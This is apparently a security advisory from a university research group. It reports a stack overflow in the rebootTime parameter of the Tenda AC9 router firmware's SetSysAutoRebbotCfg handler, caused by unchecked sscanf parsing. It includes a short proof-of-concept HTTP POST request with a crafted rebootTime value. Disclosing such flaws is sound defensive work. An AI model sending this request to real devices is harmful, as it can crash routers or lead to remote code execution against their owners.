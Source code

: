 # Tenda AC9 V1.0 V15.03.05.14_multi stack overflow vulnerability
## Organization
School of Cybersecurity, Northwestern Polytechnical University  
## Author
魏书琪 郭鸿志 尹子硕 张路石 毛伯敏 荀毅杰
## Affected Version
Tenda AC9 V1.0 V15.03.05.14_multi
## Vulnerability Description
In Tenda ac9 v1.0 routers with firmware version V15.03.05.14_multi, the rebootTime parameter of route /goform/SetSysAutoRebbotCfg has a stack overflow vulnerability, which can lead to remote arbitrary code execution.
## Vulnerability Detail
There is a stack overflow vulnerability in the formSetRebootTimer function in Tenda AC9 V1.0 firmware V15.03.05.14_multi.This function accepts the rebootTime parameter from a POST request by variable s.However, since the user has control over the input of rebootTime, and sscanf() simply parses the data in the format specified by format and stores it directly into the target variable，the statement "sscanf(s,"%d:%d",&v7,&v6);  " may leads to a buffer overflow.  The user-supplied rebootTime can exceed the capacity of the  v6  array, thus triggering this security vulnerability.

![img](./img/SetSysAutoRebbotCfg.png)

## Poc
```py
POST /goform/SetSysAutoRebbotCfg HTTP/1.1
Host: 192.168.0.1
Connection: keep-alive
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.198 Safari/537.36
Cookie: password=452b97084f53fd461f33687a27a21f4dpxatgb

rebootTime=00:88888
```
